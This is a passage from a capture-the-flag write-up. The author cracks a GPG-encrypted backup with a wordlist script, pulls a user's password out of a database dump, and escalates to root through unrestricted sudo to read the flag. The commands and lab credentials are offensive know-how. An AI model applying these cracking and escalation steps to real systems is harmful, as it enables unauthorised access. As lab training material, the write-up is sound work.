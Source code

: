 Holly molly...its too big for gpg2john...let's search for a custom script

```bash
$ ./crackgpg.sh 2020-08-13.zip.gpg wordlist.txt
FAILED - ebqiojsdfioj
FAILED - ebqiojsiodj
FAILED - ebqiojdifoj
FAILED - ebqiopsjdfopj
FAILED - ebqnice
FAILED - ebqops
FAILED - ebqiuiud
FAILED - ebqjoisjdfij
FAILED - ebqkjjdd
FAILED - ebqijsji
FAILED - ebqopkopk

SUCESS - ebqattle
```

`7z x 2020-08-13.zip`

`$ grep -ri james 2020-08-13`

```bash
2020-08-13/sakila/sakila-mv-data.sql:(84,'JAMES','PITT','2006-02-15 04:34:33'),
2020-08-13/sakila/sakila-mv-data.sql:(71,1,'KATHY','JAMES','KATHY.JAMES@sakilacustomer.org',75,1,'2006-02-14 22:04:36','2006-02-15 04:57:20'),
2020-08-13/sakila/sakila-mv-data.sql:(299,2,'JAMES','GANNON','JAMES.GANNON@sakilacustomer.org',304,1,'2006-02-14 22:04:37','2006-02-15 04:57:20'),
2020-08-13/load_employees.dump:(499996,'1953-03-07','James','vuimaxcullings','M','1990-09-27'),
```

creds = `james:vuimaxcullings`

Ah! privilege escalation

## Privilege escalation

```bash
james@james:~$ sudo -l
[sudo] password for james:
Matching Defaults entries for james on james:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on james:
(ALL : ALL) ALL
```

haha James is a fricking Boss!

```bash
james@james:/home/sarah/serverLx$ sudo su root
[sudo] password for james:
root@james:/home/sarah/serverLx# cd /root
root@james:~# ls
root.txt
root@james:~# cat root.txt
Flag{do_you_even_bash_bro}

NOW YOU ARE LINUX STRONGER!!!
```

wow...just...wow...

G'night folks!
